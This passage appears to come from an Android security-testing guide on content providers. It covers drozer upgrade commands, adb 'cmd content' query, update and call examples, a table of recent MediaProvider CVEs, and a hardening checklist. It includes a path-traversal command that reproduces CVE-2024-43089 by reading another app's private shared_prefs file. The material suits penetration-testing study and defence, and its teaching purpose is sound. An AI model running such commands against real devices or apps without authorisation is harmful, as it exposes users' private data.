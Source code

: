 Upgrade (host & agent):

```bash
pipx install --force "git+https://github.com/WithSecureLabs/drozer@v3.1.0"
adb install drozer-agent-3.1.0.apk
```
```
### Using the built-in `cmd content` helper (ADB ≥ 8.0)

All modern Android devices ship with a CLI that can query/update providers **without installing any agent**:

```bash
adb shell cmd content query  --uri content://com.test.provider/items/
adb shell cmd content update --uri content://com.test.provider/items/1 \
      --bind price:d:1337
adb shell cmd content call   --uri content://com.test.provider  \
      --method evilMethod --arg 'foo'
```
```
Combine it with `run-as <pkg>` or a rooted shell to test internal-only providers.

### Recent real-world CVEs that abused Content Providers

| CVE | Year | Component | Bug class | Impact |
|-----|------|-----------|-----------|--------|
| CVE-2024-43089 | 2024 | MediaProvider | Path traversal in `openFile()` | Arbitrary file read from any app’s private storage |
| CVE-2023-35670 | 2023 | MediaProvider | Path traversal | Information disclosure |

Re-create CVE-2024-43089 on a vulnerable build:

```bash
adb shell cmd content read \
  --uri content://media/external_primary/file/../../data/data/com.target/shared_prefs/foo.xml
```
```
### Hardening checklist for API 30+

* Declare `android:exported="false"` unless the provider **must** be public – from API 31 the attribute is mandatory.
* Enforce **permissions** and/or `android:grantUriPermissions="true"` instead of exporting the whole provider.
* Whitelist allowed `projection`, `selection` and `sortOrder` arguments (e.g. build queries with `SQLiteQueryBuilder.setProjectionMap`).
* In `openFile()` canonicalise the requested path (`FileUtils`) and reject `..` sequences to prevent traversal.
* When exposing files prefer **Storage Access Framework** or a `FileProvider`.

These changes in recent Android versions mean many legacy exploitation primitives still work, but require additional flags/permissions that the updated drozer modules or `cmd content` helper can apply automatically.

## References

- [[https://www.tutorialspoint.com/android/android_content_providers.htm|https://www.tutorialspoint.com/android/android_content_providers.htm]]
- [[https://manifestsecurity.com/android-application-security-part-15/|https://manifestsecurity.com/android-application-security-part-15/]]
- [[https://labs.withsecure.com/content/dam/labs/docs/mwri-drozer-user-guide-2015-03-23.pdf|https://labs.withsecure.com/content/dam/labs/docs/mwri-drozer-user-guide-2015-03-23.pdf]]
- [[https://github.com/WithSecureLabs/drozer/releases/tag/3.1.0|https://github.com/WithSecureLabs/drozer/releases/tag/3.1.0]]
- [[https://source.android.com/security/bulletin/2024-07-01|https://source.android.com/security/bulletin/2024-07-01]]

```